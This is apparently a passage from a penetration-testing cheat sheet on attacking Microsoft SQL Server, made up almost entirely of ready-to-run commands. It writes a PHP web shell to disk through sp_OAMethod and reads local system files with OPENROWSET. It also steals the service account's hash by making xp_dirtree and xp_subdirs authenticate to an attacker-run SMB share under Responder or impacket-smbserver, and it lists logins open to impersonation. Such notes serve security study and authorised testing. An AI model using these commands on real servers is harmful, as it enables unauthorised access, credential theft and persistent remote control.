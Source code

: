 ```cmd-session
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

Read local files
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```


#### Capture MSSQL Service Hash

Start
- Responder OR
- impacket-smbserver

```shell-session
sudo responder -I tun0
```
```shell-session
sudo impacket-smbserver share ./ -smb2support
```


XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\my_ip_address\share\'
2> GO
```

XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\my_ip_address\share\'
2> GO
```

#### Impersonate Existing Users with MSSQL

Identify Users that We Can Impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Verifying our Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
